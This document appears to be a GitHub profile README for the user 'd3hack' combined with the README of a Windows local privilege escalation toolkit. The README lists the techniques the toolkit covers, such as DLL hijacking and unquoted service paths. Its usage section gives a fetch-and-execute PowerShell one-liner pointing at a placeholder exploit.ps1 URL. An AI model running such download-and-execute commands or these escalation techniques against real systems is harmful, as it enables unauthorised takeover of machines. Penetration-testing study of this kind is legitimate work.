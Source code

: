 
<h1 align="left">Hey 👋 What's up?</h1>

###

<p align="left">Hello my name is Abbas Aghayev but internet knows me as d3hack. Can be d3hvck or d3hxck. If you can help me on anything, please do it. Love to share and work together with any professional.</p>

###

<h2 align="left">About me</h2>

###

<p align="left">✨ Im hacking Windows since 2011<br>📚 I'm currently learning AD DC and Advanced Penetration Testing Methods<br>🎯 Goals: Being HEAD OF CYBERSECURITY DIVISION<br>🎲 Fun fact: Do not trust any code on internet</p>

###

<h2 align="left">I work with</h2>

###

<div align="left">
  <img src="https://skillicons.dev/icons?i=powershell" height="40" alt="powershell logo"  />
  <img width="12" />
  <img src="https://cdn.simpleicons.org/c++/00599C" height="40" alt="cplusplus logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/c/c-original.svg" height="40" alt="c logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" height="40" alt="vscode logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/python/python-original.svg" height="40" alt="python logo"  />
  <img width="12" />
  <img src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/windows8/windows8-original.svg" height="40" alt="windows8 logo"  />
</div>

###

<img align="left" height="600" src="https://raw.githubusercontent.com/d3hvck/WinPrivEsc/refs/heads/main/WindowsExploited.webp"  />

###

<div align="center">
  <img src="https://github-readme-stats.vercel.app/api?username=d3hvck&hide_title=false&hide_rank=false&show_icons=true&include_all_commits=true&count_private=true&disable_animations=false&theme=dracula&locale=en&hide_border=false&order=1" height="150" alt="stats graph"  />
  <img src="https://github-readme-stats.vercel.app/api/top-langs?username=d3hvck&locale=en&hide_title=false&layout=compact&card_width=320&langs_count=5&theme=dracula&hide_border=false&order=2" height="150" alt="languages graph"  />
</div>

###

<div align="center">
  <img src="https://profile-counter.glitch.me/d3hvck/count.svg?"  />
</div>

###

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/d3hvck/d3hvck/output/pacman-contribution-graph-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/d3hvck/d3hvck/output/pacman-contribution-graph.svg">
  <img alt="pacman contribution graph" src="https://raw.githubusercontent.com/d3hvck/d3hvck/output/pacman-contribution-graph.svg">
</picture>

###

<div align="center">
  <img src="https://github-read-medium-git-main.pahlevikun.vercel.app/latest?limit=4&username=@aghayev2a" alt="Layout with last medium posts"  />
</div>

###


# Windows Local Privilege Escalation

This tools is developed, tested and refined by "d3hack"
Like Uncle Ben said, "With great power comes great responsibility." But in our case...
💀 With great shell access comes absolute domination. 💀

Tested on win11 pro


Primary focused to escalate privileges: 

    - DLL Hijacking

    - Service binPath
    
    - Service UnquotedPathSvc [+]
    
    - Service Registry
    
    - Service ExecFile

    - Registry Autorun
    
    - Registry AlwaysInstallelevated [+] 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task
    
    - Startup Application

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

```bash
  <> operator
  - dash
  / shash
  \ revers-shlash
  = equal
  $ val / def
  ' quot
  " double quot
```

Absolute Path in quotes:

 "C:\Program Files\Vuln Service\DLL.exe"

Relative Path
Windows
cmd.exe

Vuln Service Looks Like:

 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln.exe Service x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service.exe x64\DLL.exe /sc /q /r 
 - C:\Program Files\Vuln Service x64\DLL.exe /sc /q /r 
